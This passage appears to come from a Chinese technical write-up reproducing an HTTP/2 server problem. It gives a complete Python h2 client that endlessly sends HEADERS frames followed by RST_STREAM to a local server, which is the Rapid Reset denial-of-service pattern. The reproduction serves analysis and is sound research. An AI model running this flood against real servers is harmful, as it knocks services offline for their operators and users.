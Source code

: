接下来我们尝试复现该问题，确认一下上述逻辑。

首先准备一个如下 python http/2 client，其就是不断发送 HEADERS 帧和 RST\_STREAM 帧序列：

```python
#!/usr/bin/env python3

import socket
import ssl
import certifi

import h2.connection
import h2.events


SERVER_NAME = '127.0.0.1'
SERVER_PORT = 443

# generic socket and ssl configuration
socket.setdefaulttimeout(15)
ctx = ssl.create_default_context(cafile=certifi.where())
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
ctx.set_alpn_protocols(['h2'])

# open a socket to the server and initiate TLS/SSL
s = socket.create_connection((SERVER_NAME, SERVER_PORT))
s = ctx.wrap_socket(s, server_hostname=SERVER_NAME)

c = h2.connection.H2Connection()
c.initiate_connection()
s.sendall(c.data_to_send())

headers = [
    (':method', 'GET'),
    (':path', '/'),
    (':authority', SERVER_NAME),
]

while True:
    stream_id = c.get_next_available_stream_id()
    print(stream_id)
    c.send_headers(stream_id, headers, end_stream=True)
    s.sendall(c.data_to_send())
    c.reset_stream(stream_id)
    s.sendall(c.data_to_send())

# tell the server we are closing the h2 connection
c.close_connection()
s.sendall(c.data_to_send())

# close the socket
s.close()
```

